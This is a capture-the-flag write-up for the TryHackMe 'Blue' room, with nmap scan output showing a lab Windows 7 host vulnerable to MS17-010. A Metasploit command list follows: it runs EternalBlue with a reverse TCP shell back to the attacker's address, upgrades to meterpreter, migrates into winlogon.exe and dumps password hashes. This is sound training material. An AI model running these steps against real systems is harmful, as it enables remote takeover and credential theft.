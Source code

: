 # [Blue-Tryhackme](https://tryhackme.com/room/blue)

> Nazib Abrar | January 15, 2020

---

## IP

10.10.12.212

## Nmap Scan

```nmap
# Nmap 7.80 scan initiated Sat Jan 15 15:35:38 2022 as: nmap -sC -sV -v -oN nmap.txt 10.10.12.212
Increasing send delay for 10.10.12.212 from 0 to 5 due to 64 out of 213 dropped probes since last increase.
Nmap scan report for 10.10.12.212
Host is up (0.19s latency).
Not shown: 990 closed ports
PORT      STATE    SERVICE            VERSION
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3000/tcp  filtered ppp
3389/tcp  open     ssl/ms-wbt-server?
|_ssl-date: 2022-01-15T09:37:09+00:00; 0s from scanner time.
49152/tcp open     msrpc              Microsoft Windows RPC
49153/tcp open     msrpc              Microsoft Windows RPC
49154/tcp open     msrpc              Microsoft Windows RPC
49158/tcp open     msrpc              Microsoft Windows RPC
49159/tcp open     msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h29m59s, deviation: 3h00m00s, median: -1s
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:df:fc:15:28:4f (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-01-15T03:37:03-06:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-15T09:37:03
|_  start_date: 2022-01-15T09:29:33

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 15 15:38:09 2022 -- 1 IP address (1 host up) scanned in 151.32 seconds
```

```
# Nmap 7.80 scan initiated Sat Jan 15 16:21:49 2022 as: nmap -v --script=smb-vuln-ms17-010 -p 445 -oN nmap_smb.txt 10.10.12.212
Nmap scan report for 10.10.12.212
Host is up (0.22s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Jan 15 16:21:51 2022 -- 1 IP address (1 host up) scanned in 2.49 seconds

```

## Metasploit


- `search eternalblue`
- `use 0`
- `show options`
- `set LHOST 10.8.215.27`
- `set RHOSTS 10.10.12.212`
- `set payload windows/x64/shell/reverse_tcp`
- `run` or `exploit`
- `ctrl+z` or `background` to background the shell
- `sessions` shows all the sessions available
- `sessions -i 1` foreground the #1 session and interact with it
- `use shell_to_meterpreter`
- `migrate -N winlogon.exe`
- `hashdump` Dumps all the hashes in the machine
- Windows stores it's password in Windows\System32\config
- `search -f flag*.txt`